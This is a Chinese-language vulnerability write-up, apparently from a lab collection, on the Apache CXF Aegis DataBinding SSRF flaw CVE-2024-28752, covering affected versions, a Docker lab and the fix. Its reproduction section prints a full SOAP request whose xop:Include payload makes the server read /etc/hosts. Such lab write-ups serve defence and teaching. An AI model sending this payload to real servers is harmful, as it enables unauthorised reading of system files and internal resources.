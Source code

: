 # Apache CXF Aegis DataBinding 服务端请求伪造漏洞 CVE-2024-28752

## 漏洞描述

Apache CXF 是一个开源的服务框架，帮助开发者使用 JAX-WS 和 JAX-RS 等前端编程 API 构建和开发服务。

Apache CXF 在 4.0.4、3.6.3 和 3.5.8 版本之前存在一个使用 Aegis DataBinding 的 SSRF 漏洞，该漏洞允许攻击者对接受至少一个任意类型参数的 Web 服务执行 SSRF 攻击。此漏洞专门影响使用 Aegis DataBinding 的服务，而使用其他数据绑定 (包括默认数据绑定) 的服务不受影响。攻击者可以利用此漏洞通过让服务器向任意 URL 发送请求来访问内部资源，这可能导致信息泄露或对内部系统的进一步攻击。

参考链接：

- http://www.openwall.com/lists/oss-security/2024/03/14/3
- https://cxf.apache.org/security-advisories.data/CVE-2024-28752.txt
- https://github.com/advisories/GHSA-qmgx-j96g-4428
- https://nvd.nist.gov/vuln/detail/CVE-2024-28752
- https://github.com/ReaJason/CVE-2024-28752

## 漏洞影响

```
Apache CXF ＜ 4.0.4
Apache CXF ＜ 3.6.3
Apache CXF ＜ 3.5.8
```

## 环境搭建

Vulhub 执行如下命令启动一个存在漏洞的 Apache CXF Web 服务，该服务使用 Aegis DataBinding：

```
docker compose up -d
```

服务启动后，存在漏洞的 CXF Web 服务将可以通过 `http://your-ip:8080/test?wsdl` 访问。该服务配置为使用 Aegis DataBinding 并接受各种参数类型，使其容易受到 SSRF 攻击。

![](images/Apache%20CXF%20Aegis%20DataBinding%20服务端请求伪造漏洞%20CVE-2024-28752/image-20250818101810077.png)

## 漏洞复现

发送如下请求即可触发 SSRF 读取 `/etc/hosts` 文件内容：

```
POST /test HTTP/1.1
Host: your-ip:8080
Content-Type: multipart/related; boundary=----foo
Content-Length: 472
Connection: close

------foo
Content-Disposition: form-data; name="1"

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://service.namespace/">
   <soapenv:Header/>
   <soapenv:Body>
      <web:test>
         <arg0>
<count><xop:Include xmlns:xop="http://www.w3.org/2004/08/xop/include" href="file:///etc/hosts"></xop:Include></count>
</arg0>
      </web:test>
   </soapenv:Body>
</soapenv:Envelope>
------foo--
```

![](images/Apache%20CXF%20Aegis%20DataBinding%20服务端请求伪造漏洞%20CVE-2024-28752/image-20250818102909381.png)

解码：

![](images/Apache%20CXF%20Aegis%20DataBinding%20服务端请求伪造漏洞%20CVE-2024-28752/image-20250818103012099.png)

## 漏洞修复

官方已发布安全更新，建议升级至最新版本。
